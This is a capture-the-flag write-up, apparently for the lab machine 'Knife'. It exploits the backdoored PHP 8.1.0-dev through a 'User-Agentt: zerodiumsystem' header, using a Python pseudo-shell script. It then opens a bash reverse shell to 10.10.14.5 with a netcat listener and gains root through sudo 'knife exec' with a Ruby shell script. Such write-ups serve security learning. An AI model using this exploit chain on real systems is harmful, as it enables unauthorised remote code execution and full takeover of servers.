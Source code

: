 Analyzing the requests we can see in the header parameter X-Powered-By which tells us the version of PHP running on the server

![[Pasted image 20230728133947.png]]

With a little search on google we found that 8.1.0-dev version is vulnerable to Remote Code Execution through HTTP headers. We capture the request with BurpSuite and send it to the repeater, now we add the `User-Agentt` parameter with the `zerodiumsystem("<command>");` value and as we can see we can execute commands

![[Pasted image 20230728134847.png]]

With python we can create an script to get a pseudo shell console

```bash
#!/usr/bin/env python3
import requests

def execute_cmd(command):
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.",
        "User-Agentt": "zerodiumsystem('" + command + "');"
    }
    return requests.get(host, headers=headers)

if __name__ == '__main__':
    host = "http://10.10.10.242/"
    try:
        while True:
            command = input("$ ")
            if command == "exit": break
            response = execute_cmd(command)
            print(response.text.split('<!DOCTYPE html>', 1)[0])
    except KeyboardInterrupt:
        exit
```

Execute it and we got a shell

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Knife-10.10.10.242]
└─$ python3 python_pseudo_shell.py 
$ whoami
james
```

To upgrade this shell, we can execute a reverse shell and get it with a netcat listener

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Knife-10.10.10.242]
└─$ python3 python_pseudo_shell.py 
$ whoami
james

$ bash -c \'exec bash -i &>/dev/tcp/10.10.14.5/1234 <&1\'

--------------------

┌──(kali㉿kali)-[~]
└─$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.242] 41452
bash: cannot set terminal process group (975): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$
```

Now upgrade TTY to establish a proper shell console

```text
"python3 -c 'import pty; pty.spawn("/bin/bash")'"
CTRL+Z then "stty raw -echo" then "fg" then ENTER twice
```

If we execute `sudo -l` we can see than the current user has sudo access over `/usr/bin/knife`

```bash
james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

After a little search we find that  we can use this program to execute Ruby scripts using `knife exec <rb_script>` so lets create a ruby script which gives us a shell

```bash
james@knife:/tmp$ vim root.rb
system('/usr/bin/sh')
```

And then execute it as sudo with knife

```bash
james@knife:/tmp$ sudo /usr/bin/knife exec root.rb
# whoami
root
```

And finally we are root